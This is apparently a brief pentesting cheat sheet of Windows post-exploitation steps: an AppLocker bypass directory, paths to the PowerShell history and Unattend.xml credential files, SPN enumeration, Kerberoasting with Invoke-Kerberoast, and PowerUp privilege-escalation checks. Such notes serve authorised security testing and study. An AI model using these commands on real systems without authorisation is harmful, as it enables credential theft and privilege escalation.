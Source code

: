 ## Bypass Windows Applocker

- Safer location for executing binaries.

 `C:\Windows\System32\spool\drivers\color`

- Windows Powershell saves all previous commands into a file called "ConsoleHost_history".

  `\Users\%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

  ## Kerberos
- Extract all accounts in the SPN.

`setspn -T medin -Q ​ */* `

-  Use [Invoke-Kerberoast](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1) and get a ticket.

 `Invoke-Kerberoast -OutputFormat hashcat ​ |fl`

##  Privilege Escalation

- Use [PowerUp](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1)

   ```powershell
   . .\PowerUp.ps1
  Invoke-AllChecks
  ```
- Location where users' passwords are stored in base64 encoding.

  `C:\Windows\Panther\Unattend\Unattended.xml`
